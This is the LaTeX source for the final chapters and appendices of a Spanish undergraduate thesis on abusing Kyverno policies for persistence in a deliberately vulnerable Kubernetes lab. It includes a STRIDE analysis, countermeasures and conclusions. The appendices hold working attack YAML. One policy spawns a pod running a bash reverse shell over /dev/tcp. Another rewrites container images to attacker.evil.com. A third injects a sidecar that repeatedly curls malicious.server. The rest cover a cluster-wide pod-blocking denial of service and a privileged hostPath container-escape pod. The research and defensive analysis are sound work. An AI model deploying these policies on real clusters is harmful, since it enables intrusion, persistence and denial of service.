Este comportamiento, evidenciado a través de la modificación y creación de políticas, demuestra que la potencia de las mutaciones, diseñada para homogeneizar configuraciones de seguridad, puede transformarse en un vector de persistencia si las políticas no están firmadas, auditadas y protegidas por RBAC; en tal escenario, el propio plano de control de Kubernetes pasa a actuar como agente de la amenaza.                
\subsection{Evaluación STRIDE}
De los 6 tipos de riesgos que contempla STRIDE, se han podido materializar todos ellos. En la figura \ref{fig:diagrama_ataque_stride} se puede encontrar un diagrama donde se ilustra el proceso de ataque y se destaca cómo y sobre qué servicio se ha podido aplicar cada tipo de riesgo definido en el análisis de riesgos del capítulo 3.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.85\textwidth,clip=true]{diagrama_ataque_stride.png}
  \caption{Diagrama de ataque basado en STRIDE}
  \label{fig:diagrama_ataque_stride}
\end{figure}

Además, en la tabla \ref{tab:resultados_stride} se encuentra un resumen de cómo se ha conseguido materializar cada tipo de riesgo.

\begin{table}[H]
\small
\centering
\begin{tabularx}{\textwidth}{>{\bfseries\raggedright\arraybackslash}p{2.8cm} Y Y}
\toprule
Categoría STRIDE & Qué sucede durante el ataque & Explicación de la amenaza \\
\midrule
S – Spoofing &
Se obtiene el \textit{token} de la ServiceAccount de DVWA para crear un Pod malicioso; también se usa el \textit{token} de Kyverno para modificar \texttt{ClusterPolicies}. &
Suplantación de identidades legítimas (DVWA primero, Kyverno después) y herencia de sus privilegios. \\[4pt]
\midrule
T – Tampering &
Explotación RCE en DVWA: se inyectan comandos y se altera el flujo normal de la aplicación dentro del contenedor. &
Modificación no autorizada de código o datos: se cambia el comportamiento de DVWA para ejecutar órdenes externas. \\[4pt]
\midrule
R – Repudiation &
Se cambia una política de Kyverno a modo \texttt{Audit}; la creación del Pod privilegiado solo genera un \textit{warning} y no se bloquea. &
La acción deja un rastro débil o ambiguo, lo que facilita negar la actividad maliciosa o que pase desapercibida. \\[4pt]
\midrule
I – Information Disclosure &
Se extrae y exfiltra el \textit{token} JWT de la ServiceAccount de DVWA a la máquina del atacante. &
Exposición de información sensible (credencial) a un actor no autorizado. \\[4pt]
\midrule
D – Denial of Service &
Con el token de Kyverno se crea una política que impide la creación de cualquier recurso, afectando la disponibilidad total del clúster. &
Degradación o interrupción del servicio: finalidad típica de un DoS. \\[4pt]
\midrule
E – Elevation of Privilege &
El Pod malicioso se lanza con \texttt{privileged:true} y \texttt{hostPath=/}; el atacante obtiene acceso \textit{root} al nodo. &
Escalada desde permisos limitados en DVWA a control total sobre el host y, por extensión, sobre Kubernetes. \\
\bottomrule
\end{tabularx}
\caption{Resumen de los riesgos según STRIDE}
\label{tab:resultados_stride}
\end{table}


\section{Contramedidas}
Frente a las técnicas de ataque descritas, es necesario implantar una serie de contramedidas tanto reactivas como proactivas para mitigar riesgos y detectar actividades anómalas a tiempo. Dado que el vector crítico del escenario fue la modificación silenciosa de políticas de Kyverno (además de la explotación inicial de una mala configuración), las defensas deben centrarse especialmente en proteger la integridad de esas políticas y en monitorizar cambios inesperados en las mismas. A continuación, se proponen las medidas más relevantes: 
\begin{itemize}
    \item \textbf{Detección temprana de cambios en políticas:} resulta fundamental contar con sistemas de monitorización que alerten cuando se edita, crea o elimina una ClusterPolicy de Kyverno fuera de los procedimientos habituales. Una herramienta apropiada para ello es Falco, un sistema de detección de intrusiones a nivel de host y contenedor que, entre otras cosas, puede vigilar eventos del Kubernetes API. Configurando Falco con reglas específicas, se podría detectar, por ejemplo, la aparición de una nueva política sospechosa o la modificación de una existente (p. ej., cambiar validationFailureAction de Enforce a Audit en una política crítica). Al generar una alerta en tiempo real ante tales eventos, el equipo de seguridad podría investigar de inmediato. Falco también puede supervisar actividades anómalas en los propios nodos: en nuestro caso, habría sido posible detectar el escape del contenedor mediante hostPath observando acciones como un proceso de contenedor accediendo a archivos del sistema host (como los ficheros con los tokens de los Service Accounts) o la ejecución de binarios del sistema desde un pod que normalmente no debería tener ese alcance. Este tipo de alarmas habrían revelado el ataque en sus primeras fases, permitiendo responder antes de que el atacante consolidara su posición.
    \item \textbf{Protección de la configuración mediante reaplicación periódica:} otra contramedida eficaz para mantener la integridad de las políticas es implementar un mecanismo de reaplicación automática de políticas conocidas en intervalos definidos. Por ejemplo, se podría emplear una tarea programada (un CronJob en Kubernetes o un proceso externo) que cada 24 horas verifique las definiciones de políticas de Kyverno en el clúster contra un estado deseado almacenado (en un repositorio Git, en ficheros de configuración validados, etc.) y reimponga la versión legítima de dichas políticas. Si el atacante modificó en secreto alguna regla (por ejemplo, puso en Audit una política que debería estar en Enforce), este proceso la restauraría a su forma original, limitando la ventana de ataque. Una estrategia de este tipo, inspirada en prácticas GitOps, actúa como un pulso de autorreparación del plano de control: cualquier desviación no autorizada dura como máximo hasta la siguiente sincronización. Para fortalecer este enfoque, la tarea de reaplicación puede generar también informes o eventos cuando detecte diferencias, de modo que no solo corrija, sino que también informe de un posible incidente. Es importante destacar que, si bien esta medida puede frustrar cambios maliciosos persistentes, no sustituye a la monitorización en tiempo real; el ideal es combinar ambas, de forma que un atacante se vea confrontado tanto a la detección inmediata como a la eventual reversión de sus modificaciones.
    \item \textbf{Controles de integridad y firma:} profundizando en la protección de las políticas, se puede considerar el uso de controles criptográficos de integridad. Por ejemplo, mantener hashes o firmas digitales de las políticas Kyverno críticas y almacenarlos de forma segura. Cualquier cambio en una política debería compararse con su hash esperado, y si no coincide (es decir, si ha sido alterada sin autorización), desencadenar alertas y, potencialmente, rechazar la subida de la política. Aunque Kubernetes por sí solo no valida firmas de CRDs como las de Kyverno, integrar herramientas externas o webhooks que lo hagan aportaría una capa extra de garantía: solo se aplicarían cambios de política si provienen de una fuente confiable y están debidamente firmados. Este tipo de control, si bien añade complejidad, dificulta enormemente que un atacante persista en sus cambios de configuración sin ser descubierto. 
    \item \textbf{Refuerzo de RBAC y principios de mínimo privilegio:} la escena inicial del ataque expuso cómo un servicio con permisos excesivos (la aplicación vulnerable podía crear pods) y configuraciones laxas (permitir contenedores privilegiados y hostPath) derivó en el compromiso total del sistema. Cabe destacar que las políticas de Kyverno podrían haber estado implementadas para evitar ambas configuraciones. Por ello, es imprescindible limitar estrictamente los privilegios otorgados a aplicaciones y usuarios dentro del clúster. Cada ServiceAccount debe tener solamente los permisos necesarios para su función (principio de mínimo privilegio). En el caso de DVWA, en un entorno seguro no debería haber tenido capacidad para lanzar nuevos pods ni acceder a recursos sensibles. Un ajuste correcto de las políticas RBAC habría contenido el impacto de la vulnerabilidad, confinando al atacante dentro del contenedor inicial sin medios para escalar. Asimismo, las cuentas con privilegios administrativos (cluster-admin) deben ser mínimas y estar fuertemente vigiladas. Se recomienda habilitar el registro de auditoría de Kubernetes para todas las acciones sensibles, de manera que cualquier uso de credenciales de alto nivel quede registrado. Complementariamente, es aconsejable separar las funciones: por ejemplo, los desarrolladores pueden gestionar Deployments en ciertos namespaces, pero solo un rol de seguridad específico debería poder modificar las ClusterPolicies de Kyverno. Al segmentar estas responsabilidades, aun si un atacante compromete una cuenta de desarrollador, no tendría vía directa para tocar las políticas globales sin antes escalar contra controles adicionales. Por otro lado, asegurar el nodo anfitrión es la última barrera: técnicas como el uso de un perfil de AppArmor o SELinux estricto para los contenedores podrían haber mitigado el impacto de la escape incluso con hostPath (p. ej., evitando que un contenedor acceda a ciertos directorios críticos del host).
    \item \textbf{Auditoría continua de las políticas de Kyverno:} por último, se recomienda instaurar revisiones periódicas de todas las reglas de Kyverno instaladas. Esta auditoría continua implica verificar que cada política presente corresponde a una necesidad legítima y no ha sido alterada indebidamente. Por ejemplo, tras el ataque, un análisis manual o automatizado de las ClusterPolicies habría revelado que varias estaban en modo Audit cuando por normativa interna debían estar en Enforce, o que existía una política nueva (generate-evil-pod) no reconocida por el equipo de seguridad. Incorporar estas comprobaciones en los procesos de mantenimiento (por ejemplo, integrarlas en pipelines CI/CD de infraestructura o en scripts de supervisión diarios) asegurará que cualquier desviación sea detectada incluso si pasa inadvertida en tiempo real. Además, se pueden aplicar etiquetas o anotaciones a las políticas críticas indicando su configuración esperada; así, herramientas de validación pueden comparar el estado actual con el deseado de forma automatizada. 
\end{itemize}

En conclusión, las contramedidas propuestas se centran en crear capas defensivas adicionales alrededor de Kyverno y del plano de control de Kubernetes. Detectar modificaciones anómalas, restablecer configuraciones automáticamente, limitar quién puede cambiarlas y reducir las superficies de ataque explotables son acciones complementarias que, en conjunto, elevan significativamente el nivel de seguridad. Si bien ningún mecanismo aislado es infalible, la combinación de monitorización activa (Falco u otros), disciplina en la gestión de permisos (RBAC estricto) y resiliencia de la configuración (reaplicación periódica e integridad verificada) conforma una estrategia sólida para frustrar ataques como el evaluado y proteger la integridad del clúster a largo plazo.
%\blankpage

% Nuevo capítulo                

\chapter{Conclusiones y trabajos futuros}\label{chap:conclusiones}

En este capítulo se exponen las conclusiones extraídas del experimento llevado a cabo y se proponen líneas de trabajo que se podrían realizar en un futuro como fruto de este proyecto.

A lo largo de este Trabajo Fin de Grado se ha configurado un entorno de Kubernetes vulnerable por una mala configuración, explotando el acceso al clúster mediante un RCE. Una vez dentro, se ha procedido a usar como herramienta de ataque Kyverno, modificando una política ya existente y creando una nueva por cada tipo: validación, generación y mutación.

Este trabajo también ha servido para seguir expandiendo lo aprendido en las asignaturas del grado sobre Kubernetes, pudiendo aplicar la filosofía principal en el sector de la ciberseguridad: piensa fuera de la caja. Con ese pensamiento, se ha conseguido otorgar un enfoque ofensivo bastante interesante a una herramienta, a priori defensiva, como Kyverno. 

Respecto al análisis de los resultados obtenidos en los diferentes tipos de políticas, las 3 políticas presentan resultados potentes desde el punto de vista de un atacante, añadiendo persistencia en el acceso al sistema con algunas variantes bastantes sigilosas.

Por otro lado, se ha realizado un análisis de riesgos con la metodología STRIDE, aplicando también los conocimientos obtenidos durante las asignaturas del grado.

En cuanto a trabajos futuros, se propone seguir explorando Kyverno para identificar más vías de explotación que puedan tener un enfoque ofensivo, al igual que aplicar este estudio sobre el otro Admission Controller mencionado en la sección \nameref{chap:estadoarte}, OPA/Gatekeeper.

También sería interesante probar con escenarios mejor configurados de Kubernetes, donde resulta más complicado escapar del nodo y poder tomar el control; o incluso acceder e instalar Kyverno en un clúster que no lo tenía instalado previamente. Además, otro punto a investigar sería de desplegar esto en entornos más realistas, como usando Google Cloud.

Para finalizar, cabe destacar que se han cumplido todos los objetivos propuestos al inicio de este proyecto, en la sección \nameref{chap:objetivos}.


\blankpage









%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%% Bibliografía %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\phantomsection
\addcontentsline{toc}{chapter}{Bibliografía}

\footnotesize{
%\bibliographystyle{hispa}
\bibliographystyle{IEEEtran}
\bibliography{bibliografia}
}



% No expandir elementos para llenar toda la página
\raggedbottom
\afterpage{\blankpage}

\newpage




%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%% Apéndices %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\appendix

\phantomsection
\addcontentsline{toc}{chapter}{Apéndices}

\mbox{}
\vfill
\begin{center}
\begin{Huge}
\textbf{Apéndices}
\end{Huge}
\end{center}
\vfill
\mbox{}
\thispagestyle{empty}

\newpage
\mbox{}
\thispagestyle{empty}
\newpage


% Primer apéndice
\chapter{Políticas de Kyverno}
\label{sec:apendice1}


\section{Políticas de validación}
\subsection{Política validación disallow host network}
\begin{lstlisting}[language=yaml, caption={disallow-host-network.yaml}, label={lst:disallow-host-network}]
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: disallow-host-network
spec:
  validationFailureAction: Enforce
  rules:
    - name: no-host-network
      match:
        resources:
          kinds:
            - Pod
      validate:
        message: "No se permite el uso de hostNetwork 
        en los pods."
        anyPattern:
          - spec:
              hostNetwork: false
          - spec:
              # hostNetwork no definido
              X(hostNetwork): "*"
\end{lstlisting}
\subsection{Modificación política validación disallow host network}
\begin{lstlisting}[language=yaml, caption={mod-disallow-host-network.yaml}, label={lst:mod-disallow-host-network}]
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
[...]
  generation: 4
  name: disallow-host-network
  resourceVersion: "34609"
  uid: 7e58b9e5-e78d-4fd3-8fa2-b62ba9131066
spec:
  admission: true
  background: true
  emitWarning: false
  rules:
  - match:
      resources:
        kinds:
        - Pod
    name: no-host-network
    skipBackgroundRequests: true
    validate:
      allowExistingViolations: true
      anyPattern:
      - spec:
          hostNetwork: false
      - spec:
          X(hostNetwork): '*'
      message: No se permite el uso de hostNetwork en los pods.
  validationFailureAction: Audit
[...]
\end{lstlisting}
\subsection{Política validación ejecución como no root}
\begin{lstlisting}[language=yaml, caption={require-run-as-nonroot.yaml}, label={lst:require-run-as-nonroot}]
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: require-run-as-nonroot
  annotations:
    policies.kyverno.io/title: Requerir no-root
spec:
  validationFailureAction: Enforce
  background: true
  rules:
    - name: check-run-as-nonroot
      match:
        resources:
          kinds:
            - Pod
      validate:
        message: "Los contenedores deben ejecutarse como usuarios 
        no root (runAsNonRoot: true)."
        pattern:
          spec:
            securityContext:
              runAsNonRoot: true
\end{lstlisting}
\subsection{Modificación política validación ejecución como root}
\begin{lstlisting}[language=yaml, caption={mod-policy-run-as-root.yaml}, label={lst:mod-policy-run-as-root}]

apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
[...]
  generation: 1
  name: require-run-as-nonroot
  resourceVersion: "4671"
  uid: b9433054-6fc4-41c3-8ccf-f16e681b598d
spec:
  admission: true
  background: true
  rules:
  - match:
      resources:
        kinds:
        - Pod
    name: check-run-as-nonroot
    validate:
      message: 'Los contenedores deben ejecutarse como usuarios 
      no root (runAsNonRoot:true).'
      pattern:
        spec:
          securityContext:
            runAsNonRoot: true
  validationFailureAction: Audit
[...]
\end{lstlisting}

\subsection{Política validación bloqueo todos los pods}
\begin{lstlisting}[language=yaml, caption={block-all-pods.yaml}, label={lst:block-all-pods}]
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: block-all-pods
  annotations:
    policies.kyverno.io/title: "Control de acceso estricto"
    policies.kyverno.io/category: "Seguridad"
    policies.kyverno.io/severity: "high"
spec:
  validationFailureAction: Enforce
  background: true
  rules:
  - name: deny-everything
    match:
      any:
      - resources:
          kinds: ["Pod"]
    validate:
      message: "Acceso denegado."
      pattern:
        spec:
          containers:
          - image: "nunca-va-a-coincidir/esta/no/existe:*"
\end{lstlisting}
\section{Políticas de generación}
\subsection{Política generación network policy}
\begin{lstlisting}[language=yaml, caption={generate-network-policy.yaml}, label={lst:generate-network-policy}]
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: add-networkpolicy
spec:
  rules:
  - name: default-deny
    match:
      any:
      - resources:
          kinds: ["Namespace"]
    generate:
      apiVersion: networking.k8s.io/v1
      kind: NetworkPolicy
      name: default-deny
      namespace: "{{request.object.metadata.name}}"  
      synchronize: true
      data:
        spec:
          podSelector: {}       
          policyTypes: ["Ingress", "Egress"]
          ingress: []            
          egress: []             
\end{lstlisting}

\subsection{Modificación política generación network policy}
\begin{lstlisting}[language=yaml, caption={mod-generate-network-policy.yaml}, label={lst:mod-generate-network-policy}]
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
[...]
  generation: 1
  name: add-networkpolicy
  resourceVersion: "38391"
  uid: aeaf3494-35aa-4666-8d0d-68a0e8dfc909
spec:
  admission: true
  background: true
  emitWarning: false
  rules:
  - generate:
      apiVersion: networking.k8s.io/v1
      data:
        spec:
          egress:
          - {}
          ingress:
          - {}
          podSelector: {}
          policyTypes:
          - Ingress
          - Egress
      kind: NetworkPolicy
      name: default-deny
      namespace: '{{request.object.metadata.name}}'
      synchronize: true
[...]
\end{lstlisting}
\subsection{Política generación evil pod}
\begin{lstlisting}[language=yaml, caption={generate-evil-pod.yaml}, label={lst:generate-evil-pod}]
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: persist-evil-pod
spec:
  background: true
  rules:
  - name: recreate-evil
    match:
      any:
      - resources:
          kinds: ["Namespace"]
          names: ["dvwa"]
    generate:
      apiVersion: v1
      kind: Pod
      name: evil-pod
      namespace: dvwa
      synchronize: true
      data:
        metadata:
          labels:
            kyverno: persist
        spec:
          containers:
          - name: evil
            image: nicolaka/netshoot
            command: ["/bin/bash"]
            args: ["-c", "bash -i >& /dev/tcp/192.168.1.43/5555 
            0>&1"]
\end{lstlisting}

\section{Políticas de mutación}
\subsection{Política mutación imagepullpolicy}
\begin{lstlisting}[language=yaml, caption={imagepullpolicy.yaml}, label={lst:imagepullpolicy}]
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: workload-standardization
spec:
  validationFailureAction: Enforce
  background: true
  rules:
    - name: normalize-labels
      match:
        resources:
          kinds:
            - Pod
      mutate:
        patchStrategicMerge:
          spec:
            containers:
              - (name): "*"
                imagePullPolicy: Always
\end{lstlisting}
\subsection{Modificación política mutación imagepullpolicy}
\begin{lstlisting}[language=yaml, caption={mod-imagepullpolicy.yaml}, label={lst:mod-imagepullpolicy}]
piVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  annotations:
[...]
  uid: 3e2a9f2d-3731-4b9f-87f1-eaaf990d63a8
spec:
  admission: true
  background: true
  emitWarning: false
  rules:
  - match:
      resources:
        kinds:
        - Pod
    mutate:
      foreach:
        - list: "request.object.spec.containers"
          patchStrategicMerge:
            spec:
              containers:
                - (name): "{{ element.name }}"
                  image: "attacker.evil.com/{{ element.image }}"
                  imagePullPolicy: Always
    name: normalize-labels
[...]
\end{lstlisting}
\subsection{Política mutación inyección sidecar}
\begin{lstlisting}[language=yaml, caption={inject-backdoor-sidecar.yaml}, label={lst:inject-backdoor-sidecar}]
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: inject-backdoor-sidecar
spec:
  rules:
  - name: add-backdoor
    match:
      any:
      - resources:
          kinds: ["Pod"]
    mutate:
      patchStrategicMerge:
        spec:
          containers:
            - name: attacker-sidecar
              image: "alpine:3.17"              
              command: ["/bin/sh"]
              args: ["-c", "apk add --no-cache curl; while true; 
              do curl -s http://malicious.server/$(hostname); 
              sleep 300; done"]
\end{lstlisting}
\chapter{\textit{Deployments} utilizados}
\label{sec:apendice2}

\section{Deployment DVWA}
\begin{lstlisting}[language=yaml, caption={dvwa-deployment.yaml}, label={lst:dvwa-deployment}]
apiVersion: v1
kind: Namespace
metadata:
  name: dvwa

---
apiVersion: v1
kind: ServiceAccount
metadata:
  name: dvwa-sa
  namespace: dvwa

---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: pod-creator
  namespace: dvwa
rules:
- apiGroups: [""]
  resources: ["pods"]
  verbs: ["create", "get"]
- apiGroups: [""]
  resources: ["pods/exec"]
  verbs: ["create"]

---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: bind-dvwa
  namespace: dvwa
subjects:
- kind: ServiceAccount
  name: dvwa-sa
  namespace: dvwa
roleRef:
  kind: Role
  name: pod-creator
  apiGroup: rbac.authorization.k8s.io

---
apiVersion: v1
kind: Service
metadata:
  name: mysql
  namespace: dvwa
spec:
  ports:
    - port: 3306
  selector:
    app: mysql

---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: mysql
  namespace: dvwa
spec:
  selector:
    matchLabels:
      app: mysql
  template:
    metadata:
      labels:
        app: mysql
    spec:
      containers:
        - name: mysql
          image: mysql:5.7
          env:
            - name: MYSQL_ROOT_PASSWORD
              value: root
            - name: MYSQL_DATABASE
              value: dvwa
          ports:
            - containerPort: 3306
          volumeMounts:
            - name: mysql-pv
              mountPath: /var/lib/mysql
      volumes:
        - name: mysql-pv
          emptyDir: {}

---
apiVersion: v1
kind: Service
metadata:
  name: dvwa
  namespace: dvwa
spec:
  type: NodePort
  ports:
    - port: 80
      targetPort: 80
      nodePort: 30080
  selector:
    app: dvwa

---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: dvwa
  namespace: dvwa
spec:
  replicas: 1
  selector:
    matchLabels:
      app: dvwa
  template:
    metadata:
      labels:
        app: dvwa
    spec:
      serviceAccountName: dvwa-sa
      containers:
        - name: dvwa
          image: vulnerables/web-dvwa
          ports:
            - containerPort: 80
          env:
            - name: MYSQL_HOST
              value: mysql
            - name: MYSQL_USER
              value: root
            - name: MYSQL_PASSWORD
              value: root
            - name: MYSQL_DATABASE
              value: dvwa
\end{lstlisting}

\section{Nginx}
\begin{lstlisting}[language=yaml, caption={nginx.yaml}, label={lst:nginx}]
apiVersion: v1
kind: Pod
metadata:
  name: nginx-no-sc
spec:
  containers:
  - name: nginx
    image: nginx
  hostNetwork: true
\end{lstlisting}
\section{Root Pod}
\begin{lstlisting}[language=yaml, caption={root-pod.yaml}, label={lst:root-pod}]
apiVersion: v1
kind: Pod
metadata:
  name: escape-pod
  namespace: dvwa
spec:
  containers:
    - name: exploiter
      image: alpine
      command: ["sleep", "3600"]
      securityContext:
        runAsUser: 0
        privileged: true
      volumeMounts:
        - name: host-root
          mountPath: /host
  volumes:
    - name: host-root
      hostPath:
        path: /
        type: Directory

\end{lstlisting}




% Fin del documento
\end{document}
